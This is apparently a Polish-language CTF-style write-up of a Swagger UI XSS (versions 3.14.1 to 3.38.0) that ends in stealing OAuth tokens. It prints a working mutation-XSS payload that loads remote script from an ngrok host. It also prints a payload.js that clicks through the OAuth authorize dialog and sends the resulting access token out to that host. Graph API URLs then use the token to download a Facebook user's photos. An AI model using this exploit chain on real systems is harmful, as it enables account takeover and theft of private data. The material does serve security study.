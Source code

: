 ![](../images/Pasted%20image%2020220717202600.png)

Swagger XSS: affected versions **>=3.14.1 < 3.38.0** (https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/)

XSS payload w miejscu `description`:
```
description: |
    <form><math><mtext></form><form><mglyph><svg><mtext><textarea><path id="</textarea><img onerror='let a = document.createElement(`script`);a.src=`https://somehost.eu.ngrok.io/payload.js`;document.body.appendChild(a);' src=1>"></form>
```

JS payload (`payload.js`):
```
document.querySelector("button.authorize").click();
setTimeout(() => {
  document.querySelector("input#public_profile-implicit-checkbox-OAuth2").checked = true;
  setTimeout(() => {
    document.querySelector("button.modal-btn.authorize").click(); 
    setTimeout(() => {
      fetch("https://somehost.eu.ngrok.io/here_comes_the_data?data=" + encodeURIComponent(JSON.stringify(ui.auth())));
    }, 2500);
  }, 100);
}, 100);
```

Decodując dane z parametru otrzymujemy `access_token` do jakiegoś konta na Facebooku.

Pobieranie zdjęć:

`https://graph.facebook.com/me/albums?access_token=<access_token>`

`https://graph.facebook.com/<album_id>/photos?access_token=<access_token>`

`https://graph.facebook.com/<photo_id>/picture?access_token=<access_token>`


Otrzymane zdjęcie (na końcu jest `0`, nie `O`)
![](../images/Pasted%20image%2020220717204210.png)